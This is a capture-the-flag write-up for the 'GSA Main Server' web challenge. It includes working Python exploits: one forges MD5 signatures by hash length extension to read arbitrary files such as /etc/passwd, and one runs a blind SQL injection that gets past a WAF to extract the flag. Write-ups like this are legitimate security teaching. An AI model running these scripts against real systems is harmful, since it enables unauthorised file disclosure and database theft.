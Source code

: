 # GSA Main Server

The participants were given a portal containing some information and it has some features such as downloading attachments and etc. After spending some time on the task, I notieced a comment in the last line of index.php file:

```
<!--# vim: syntax=apache ts=4 sw=4 sts=4 sr noet-->
```

Indicating the file has been modified by vim, so I checked `index.php~`, nothing useful but:
```
<? require 'html/header.php'; ?>
<? require 'functions.php' ?>
<? require 'infoDB.php' ?>
```
I checked all pages by adding ~ and, `functions.php~` was there:
```
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}

// end
```
On the other side, in portal (*http://178.62.34.76/showInformation/2*) there was an attachment to download:

```
GET /getAttachment/file.txt HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close
```

It had two important parts, filename which was given by URL and `X-Signature: beb2e68c628653c72abcb388b078cfda` which prevented from changing file name:
```
GET /getAttachment/blahblah HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close


Rsponse: Error: Invalid Signature has been given
```

Back to the functions.php, if makeSignature makes the signature, there are two notes:

+ The key cannot be brute forced, because the length was 10 character as mentioned in comment
+ The function was vulnerbale to Hash Length Extension

So I used hashpumpy library to exploit the hole:

```
import requests
import hashpumpy
import urllib
import sys

if len(sys.argv) != 2:
	print ''
	print '[>] Usage: python {} [path]'.format(sys.argv[0])
	print '[>] Example: python {} ../../../../../../etc/passwd'.format(sys.argv[0])
	print ''
	sys.exit()

new_digest, new_data = hashpumpy.hashpump('beb2e68c628653c72abcb388b078cfda', 'file.txt', '?/' + sys.argv[1] , 32)
new_data_encoded = urllib.quote_plus(urllib.quote_plus(new_data))

print ''
print '[>] New Signature: {}'.format(new_digest)
print '[>] New data: {}'.format(new_data.encode('hex'))
print '[+] Result:'
print ''
print '~~~~~~'

headers = {'X-Signature': new_digest}
response = requests.get('http://178.62.34.76/getAttachment/' + new_data_encoded, headers=headers);
print response.text;

print '~~~~~~'
print ''
```

Result:
![](1.png)

I spent much time here, figured out that two files were important to read:

+ Squid config 
+ .htaccess

The htaccess source:

```
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]

```

Revealing two new hosts (next questions), and some hidden path such as `notConfirmedInformation/` and etc. `infoSubmit/' path allowed to insert new information and `notConfirmedInformation/` allowed to see the information submitted. After some strugling at this stage, I found that `notConfirmedInformation/{id}` was prone to MySQL injection. However, the injection was tricky because as I deduced:

+ There was two query, first loads the page and second upgrades the view number.
+ The first one was totally secures, the second one had injection though. **The SQLi test was easy**
+ The WAF was annoying, it blocked queries had some keywords such as `union` and replaced some characters such as `space`

###### SQLi test:
http://178.62.34.76/notConfirmedInformation/265940057+and+1=1
http://178.62.34.76/notConfirmedInformation/265940057+and+1=2

Page gets loaded but `Visited` ony upgraded in first request


###### The flag:
Finnaly, I wrote a python code to exploit the injection hole:

```
import requests
import re
import sys

regex = re.compile("<b>Visited:</b> (\d+)</div>")


if len(sys.argv) != 2:
    print ''
    print '[>] Usage: python {} [id]'.format(sys.argv[0])
    print '[>] Example: python {} 265940057'.format(sys.argv[0])
    print ''
    sys.exit()

qq = "http://178.62.34.76/notConfirmedInformation/{}".format(sys.argv[1])
body = requests.get(qq).text

visited = int(regex.findall(body)[0])


#q = "(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))"
#q = "(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())and(table_name='flag'))"
q = "(select(????)from(flag))"

out = ""
for i in range(1,30):
    for c in range(31,126):
        qq = "http://178.62.34.76/notConfirmedInformation/"+sys.argv[1]+"-if(ord(mid("+q+","+str(i)+",1))="+str(c)+",0,2)"
        #print qq
        body = requests.get(qq).text
        #print body
        visited2 = int(regex.findall(body)[0])


        if visited + 1 == visited2:
            sys.stdout.write(chr(c)) 
            sys.stdout.flush()
            visited = visited2
            break
        if visited2==visited:
            pass
        else:
            pass
```

The Flag: ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}

###### Contact
https://twitter.com/yshahinzadeh